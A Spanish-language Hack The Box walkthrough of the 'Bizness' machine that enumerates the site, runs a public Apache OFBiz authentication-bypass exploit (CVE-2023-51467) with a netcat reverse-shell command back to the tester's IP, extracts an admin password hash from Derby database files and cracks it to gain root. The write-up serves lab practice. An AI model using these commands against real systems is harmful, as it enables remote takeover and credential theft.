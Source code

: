 ```yaml
---
layout: writeup
category: pingu489
chall_description: 
points: 20
solves: 
tags: 
date: 2024-04-27
comments: true
---
```

---
Hack The Box 

Maquina: Bizness

Objetivo: 

Dificultad: Facil


---
## Escaneo
Fase 1: Escaneo de puertos 

Con nmap haremos un escaneo con la ip que nos proporciona htb para ver que puertos tiene abiertos y esta utilizando la maquina.



```
$ nmap -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-02 05:32 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
Esta utilizando el puerto 80, asi que tiene una pagina web activa.

![Branching](/assets/images/bizness/biznessweb.jpg)

Intente utilizar varias veces la herramienta que utilice en la maquina devvortex pero me daba un error asi que probe "dirbuster" que es una alternativa y busque los directorios ocultos y uno me llamo la atencion... se llamaba "control/login", al tener el nombre de login supuse que seria el login de la pagina.
```
(pingu㉿kaliPingu)-[~]
└─$ dirbuster -u https://bizness.htb                      
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200

Dir found: /control/login/ - 200


```

Y lo era!

![Branching](/assets/images/bizness/loginweb.jpg)

Probe las tipicas contraseñas como "admin" "root" pero nada... y me fije arriba que ponia : OFBizz

Busque en google y formaba parte de apache, el sistema de host de linux y tras buscar una vulnerabilidad encontre una llamada : CVE-2023-51467

Esta vulnerabilidad permite a los atacantes y eludir los procesos de autenticación,permitiendo ejecutar codigo.... asi que era perfecto!

En el siguiente enlace de google tenia ya el repositorio github!

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass


Con el comando "git clone" copiaremos el repositorio y comprobaremos que lo tenemos todo dentro dela carpeta.
```
(pingu㉿kaliPingu)-[~/Escritorio]
└─$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
Clonando en 'Apache-OFBiz-Authentication-Bypass'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 19 (delta 3), reused 7 (delta 1), pack-reused 5
Recibiendo objetos: 100% (19/19), 51.44 MiB | 12.47 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio]
└─$ cd Apache-OFBiz-Authentication-Bypass 
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─$ ls
exploit.py  README.md  xdetection.py  ysoserial-all.jar

```

Vayamos por partes, como dijo jack el destripador:

Primero nos pondremos en escucha por el puerto 444

```
(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# nc -lvnp 4444

```
Iremos a otra terminal dejando esa en escucha.

En esta nueva terminal ejecutarmeos el exploit con el comando como nos explica en el repositorio github pero añadiremos un extra.

Desde la web https://www.revshells.com crearemos un comando para la reversell poniendo nuestra ip ( la que nos proporciona la VPN de HTB y) y elpuerto 4444 y copiaremos el comando y lo pondremos al final entre las comillas.

```
─(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c sh 10.10.14.13 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

Ahora iremos a la otra ventana de la terminal con el puerto en escucha 444 y podremos escrbir id y veremos que estaremos dentro.ponemos el comando para indicarle la bash y asi trabajar mas comodos!

## Primera bandera


```
script /dev/null -c /bin/bash
```

Ahora nos moveremos por los directorios hacia atras usando los ".." y iremos a la carpeta del usuario ofbiz y haremos cat con el archivo y veremos la bandera.

```
ofbiz@bizness:/opt/ofbiz$ ls
ls
APACHE2_HEADER  DOCKER.md                INSTALL              runtime
applications    docs                     lib                  SECURITY.md
build           framework                LICENSE              settings.gradle
build.gradle    gradle                   NOTICE               themes
common.gradle   gradle.properties        npm-shrinkwrap.json  VERSION
config          gradlew                  OPTIONAL_LIBRARIES
docker          gradlew.bat              plugins
Dockerfile      init-gradle-wrapper.bat  README.adoc
ofbiz@bizness:/opt/ofbiz$ cd ..
cd ..
ofbiz@bizness:/opt$ ls
ls
ofbiz
ofbiz@bizness:/opt$ cd ..
cd ..
ofbiz@bizness:/$ ls
ls
bin   home            lib32       media  root  sys  vmlinuz
boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt    sbin  usr
etc   lib             lost+found  proc   srv   var
ofbiz@bizness:/$ cd home
cd home
ofbiz@bizness:/home$ ls
ls
ofbiz
ofbiz@bizness:/home$ cd ofbiz
cd ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
```

Ya tenemos la primera bandera! ahora vamos a por la segunda :D

## Ser Root

Dentro del directorio "/opt/ofbiz/framework/resources/templates" Tendremos
un archivo llamado AdminUserLoginData.xml y tras leerlo con cat veremos un codigo con "SHA" significa que la contraseña esta encripatada y tendremos que desencripatarla, pero esa no es la que necesitamos!

Iremos a la direccion : /opt/ofbiz/runtime/data/derby/ofbiz/seg0 y aqui veremos con "ls" muchisimos archivos , pues con grep filtraremos para ver todo lo que contiene SHA y strings.


 ```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ strings * | grep SHA
strings * | grep SHA
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
 ```
Y.. BINGO! ya tenemos el sha bueno, ahora toca desencriparlo

Utilizaremos una herramienta que he encontrado en github

https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker

Con git clone copiaremos el repositorio en el escritorio y usaremos esa clave para descifrar la contraseña.


```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

```
# python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' wordlist /home/pingu/Escritorio/Diccionarios/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!


```

Como veremos la contraseña es monkeybizness asi que haremos el comando su root y pondremos la contraseña, luego iremos a "cd /root " y con ls veremos la ultima bandera.

```
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# cd /root
cd /root
root@bizness:~# ls
ls
root.txt
root@bizness:~# cat root.txt
cat root.txt

```



Conclusion: La verdad es que esta maquina ha requerido mas busquedas en internet, sobretodo para descifrar la clave del sha, por que la primera que descubrimos no es y hay que buscar mas a fondo en los archivos de la carpeta, pero al final ayudandonos de google ( que para eso esta) conseguimos sacarla.
Una maquina que me ha gustado mucho por el uso del descifrado de contraseñas!







https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
